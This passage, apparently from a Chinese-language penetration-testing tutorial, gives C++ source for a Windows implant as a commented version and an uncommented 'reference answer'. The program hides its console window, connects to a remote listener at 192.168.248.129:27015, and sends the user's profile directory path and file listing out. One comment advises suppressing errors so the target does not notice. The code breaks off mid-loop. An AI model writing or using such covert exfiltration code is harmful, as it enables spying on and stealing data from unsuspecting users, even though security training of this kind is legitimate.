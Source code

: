```cpp
			send(server, ent->d_name, sizeof(ent->d_name), 0); /* 将当前项目的名称（包含在用户路径中的文件或目录）发送给渗透测试人员 */
		}
		closedir(dir); //关闭读取的目录
	}
	else
	{
		perror(""); // 如果打开目录时出错，打印错误 - 如果它工作正常，可以从最终版本中删除，这样目标就不会看到打印的错误
	}

	closesocket(server); // close the socket;
	WSACleanup(); // 清理 Winsock 库组件
}

```

去除注释的官方参考答案：

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#define _CRT_SECURE_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>

char* userDirectory()
{
	char* pPath;
	pPath = getenv("USERPROFILE");
	if (pPath != NULL)
	{
		return pPath;
	}
	else {
		perror("");
	}
}

int main()
{
	ShowWindow(GetConsoleWindow(), SW_HIDE);
	WSADATA wsaData;
	SOCKET server;
	SOCKADDR_IN addr;

	WSAStartup(MAKEWORD(2, 0), &wsaData);
	server = socket(AF_INET, SOCK_STREAM, 0);
	addr.sin_addr.s_addr = inet_addr("192.168.248.129");
	addr.sin_family = AF_INET;
	addr.sin_port = htons(27015);
	connect(server, (SOCKADDR*)&addr, sizeof(addr));

	char* pPath = userDirectory();
	send(server, pPath, sizeof(pPath), 0);

	DIR* dir;
	struct dirent* ent;
	if ((dir = opendir(pPath)) != NULL)
	{
		while ((ent = readdir(dir)) != NULL)
```